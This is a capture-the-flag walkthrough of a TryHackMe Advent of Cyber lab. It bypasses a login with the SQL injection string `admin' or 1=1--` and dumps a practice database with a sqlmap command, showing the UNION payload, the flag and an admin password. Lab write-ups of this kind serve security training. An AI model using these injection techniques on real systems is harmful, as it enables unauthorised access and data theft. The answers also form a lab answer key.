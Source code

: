# TryHackMe [Advent of Cyber 2](https://tryhackme.com/room/adventofcyber2) Day 5
### References
* DarkSec. (2020). TryHackMe Advent of Cyber 2: Day 5 [YouTube Video]. In YouTube. https://youtu.be/Kitx7cSNsuE

## Without using directory brute forcing, what's Santa's secret login panel?
* Hint:
> The name is derived out of 2 words from this question. `/s**tap***l`

**Answer**: `/santapanel`

## Visit Santa's secret login panel and bypass the login using SQLi
1. Access the sing-in page from the address `http://10.10.30.88:8000/santapanel`
2. Use the username of `admin' or 1=1--` and any password

## How many entries are there in the gift database?
1. By using BurpSuite, we can intercept the search request and modify it for `sqlmap`:
```http
GET /santapanel?search=AppleGamer22 HTTP/1.1
Host: 10.10.30.88:8000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.30.88:8000/santapanel
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: session=eyJhdXRoIjp0cnVlfQ.YVBR5A.VXiLxJfhJkAJWz7UbczWaIrBYTk
Connection: close
```
2. `sqlmap` enumeration:
```bash
$ sqlmap -r request.txt --tamper=space2comment --dump-all --dbms sqlite
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] y
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 36 HTTP(s) requests:
---
Parameter: search (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: search=AppleGamer22 UNION ALL SELECT CHAR(113,112,106,118,113)||CHAR(65,109,85,83,77,77,100,75,88,88,90,113,106,71,99,78,86,113,76,87,74,117,81,118,67,85,113,90,100,97,115,73,115,111,78,81,83,113,102,83)||CHAR(113,120,113,122,113),NULL-- imHD
---
Database: <current>
Table: sequels
[22 entries]
+-------------+-----+----------------------------+
| kid         | age | title                      |
+-------------+-----+----------------------------+
| James       | 8   | shoes                      |
| John        | 4   | skateboard                 |
| Robert      | 17  | iphone                     |
| Michael     | 5   | playstation                |
| William     | 6   | xbox                       |
| David       | 6   | candy                      |
| Richard     | 9   | books                      |
| Joseph      | 7   | socks                      |
| Thomas      | 10  | 10 McDonalds meals         |
| Charles     | 3   | toy car                    |
| Christopher | 8   | air hockey table           |
| Daniel      | 12  | lego star wars             |
| Matthew     | 15  | bike                       |
| Anthony     | 3   | table tennis               |
| Donald      | 4   | fazer chocolate            |
| Mark        | 17  | wii                        |
| Paul        | 9   | github ownership           |
| James       | 8   | finnish-english dictionary |
| Steven      | 11  | laptop                     |
| Andrew      | 16  | rasberry pie               |
| Kenneth     | 19  | TryHackMe Sub              |
| Joshua      | 12  | chair                      |
+-------------+-----+----------------------------+
Database: <current>
Table: hidden_table
[1 entry]
+-----------------------------------------+
| flag                                    |
+-----------------------------------------+
| thmfox{All_I_Want_for_Christmas_Is_You} |
+-----------------------------------------+
Database: <current>
Table: users
[1 entry]
+------------------+----------+
| password         | username |
+------------------+----------+
| EhCNSWzzFP6sc7gB | admin    |
+------------------+----------+
```

**Answer**: `22`
## What did Paul ask for?
**Answer**: `github ownership`
## What is the flag?
**Answer**: `thmfox{All_I_Want_for_Christmas_Is_You}`
## What is admin's password?
**Answer**: `EhCNSWzzFP6sc7gB`